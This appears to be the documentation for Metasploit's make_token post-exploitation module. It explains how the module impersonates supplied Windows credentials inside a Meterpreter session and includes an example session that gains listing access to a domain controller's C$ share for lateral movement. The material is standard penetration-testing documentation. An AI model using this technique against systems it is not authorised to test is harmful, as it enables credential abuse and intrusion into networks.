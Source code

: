 ## Overview
In its default configuration, this module creates a new network security context with the specified
logon data (username, domain and password). Under the hood, Meterpreter's access token is cloned, and
a new logon session is created and linked to that token. The token is then impersonated to acquire
the new network security context. This module has no effect on local actions - only on remote ones
(where the specified credential material will be used). This module does not validate the credentials
specified.

## Options
- **USERNAME** - Username to use 
- **PASSWORD** - Password to use 
- **DOMAIN** - Domain to use
- **LOGONTYPE** - The type of logon operation to perform (defaults to `LOGON32_LOGON_NEW_CREDENTIALS`)

### LOGONTYPE
This module defaults to `LOGON32_LOGON_NEW_CREDENTIALS` so as to mimic the behaviour of Cobalt Strike's
[`make_token`](https://www.cobaltstrike.com/blog/windows-access-tokens-and-alternate-credentials/) command. 
However, any valid LOGONTYPE for the LogonUser function can be specified. More details can be found at 
<https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonusera>, by checking the 
`dwLogonType` flag.

## Scenarios
This module can be used as an alternative to modules like `post/windows/manage/run_as` or `post/windows/manage/run_as_psh`, which require the creation of a new process. This module impersonates the specified credentials in the current Meterpreter session, which can be leveraged to enum or move laterally to other systems on behalf of the impersonated user.

## Limitations
In its default configuration, this module does not require privileges to create a new security context (new access token). Despite of this, some actions with the new token might require privileges. For example, in order to create a process with an access token - with functions like [CreateProcessAsUser](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) or [CreateProcessWithToken](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) - administrative privileges are needed. This means that if you use this module with a non-privileged user, your new processes will not inherit `make_token`'s security context.

## Example

```
meterpreter > getuid
Server username: CAP\vegeta
meterpreter > ls \\\\dc01\\C$
[-] stdapi_fs_stat: Operation failed: Access is denied.
meterpreter > run post/windows/manage/make_token username=bulma_da password=Patatas123 domain=capsule.corp

[*] Executing rev2self to revert any previous token impersonations
[*] Executing LogonUserA with the flag LOGON32_LOGON_NEW_CREDENTIALS to create a new security context for capsule.corp\bulma_da
[*] Impersonating the new security context...
[+] The session should now run with the new security context!
[!] Remember that this will not have any effect on local actions (i.e. getuid will still show the original user)
meterpreter > ls \\\\dc01\\C$
Listing: \\dc01\C$
==================

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
040777/rwxrwxrwx  0          dir   2021-05-08 10:20:24 +0200  $Recycle.Bin
040777/rwxrwxrwx  0          dir   2023-05-19 12:06:35 +0200  $WinREAgent
040777/rwxrwxrwx  0          dir   2023-05-19 09:44:10 +0200  Documents and Settings
100666/rw-rw-rw-  12288      fil   2023-06-06 09:25:56 +0200  DumpStack.log.tmp
040777/rwxrwxrwx  0          dir   2021-05-08 10:20:24 +0200  PerfLogs
040555/r-xr-xr-x  0          dir   2023-05-19 09:53:15 +0200  Program Files
040777/rwxrwxrwx  0          dir   2021-05-08 11:40:15 +0200  Program Files (x86)
040777/rwxrwxrwx  0          dir   2023-05-19 09:44:33 +0200  ProgramData
040777/rwxrwxrwx  0          dir   2023-05-19 09:44:10 +0200  Recovery
040777/rwxrwxrwx  0          dir   2023-05-19 09:55:58 +0200  System Volume Information
040555/r-xr-xr-x  0          dir   2023-05-19 09:44:15 +0200  Users
040777/rwxrwxrwx  0          dir   2023-05-19 09:52:08 +0200  Windows
100666/rw-rw-rw-  402653184  fil   2023-06-06 09:25:56 +0200  pagefile.sys
```
